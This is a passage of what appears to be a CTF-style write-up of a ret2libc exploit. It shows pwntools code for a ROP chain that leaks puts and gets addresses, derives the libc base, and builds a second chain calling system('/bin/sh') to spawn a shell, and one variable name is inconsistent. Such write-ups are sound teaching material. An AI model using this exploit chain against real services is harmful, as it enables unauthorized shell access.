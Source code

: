 ### 1st ropchain:
```python
main = p64(0x004011ae)
string = b"QUIT"

puts_plt = p64(elf.plt['puts'])
puts_got = p64(elf.got['puts'])
gets_got = p64(elf.got['gets'])
pop_rdi = p64(0x00000000004012cb)

ropchain1 = b'A' * 0x84 + string
ropchain1 += pop_rdi + puts_got + puts_plt
ropchain1 += pop_rdi + gets_got + puts_plt + main

run.sendline(ropchain1)

run.recvuntil(b"\n")
leaked_puts = u64(run.recvline().strip().ljust(8, b'\x00'))
leaked_gets = u64(run.recvline().strip().ljust(8, b'\x00'))

log.info("Leaked puts address = " + hex(leaked_puts))
log.info("Leaked gets address = " + hex(leaked_gets))
```

### Result:
```bash
[*] Leaked puts address = 0x7f48fd04f210
[*] Leaked gets address = 0x7f48fd04e780
```

## Building the 2nd ropchain (to spawn shell)
We now have the correct libc version to work with, let's specified the library in our exploit script:
```python
libc = ELF("./libc6_2.31-0ubuntu9_amd64.so")
```

The final goal of ret2libc attack is to spawn a shell by calling `system("/bin/sh")` (or `execve("/bin/sh")`). Both the addresses of `system()` and the string `/bin/sh` can be found in libc.

The addresses in shared libraries are only relative addresses. Therefore, we will need to find the base address of libc by subtracting libc function address from our leaked address:
```python
libc.address = leaked_puts - libc.sym['puts']
```

Now we can find `system()` and the string `/bin/sh` using the libc base address:
```python
bin_sh = next(libc.search(b"/bin/sh"))
system = libc.sym['system']
```

### 2nd ropchain:
```python
bin_sh = next(libc.search(b"/bin/sh"))
system = libc.sym['system']
exit = libc.sym['exit']

log.info("/bin/sh = " + hex(binsh))
log.info("system = " + hex(system))

ropchain2 = b'A' * 0x84 + string + pop_rdi + p64(bin_sh) + p64(system)

run.sendline(ropchain2)
```
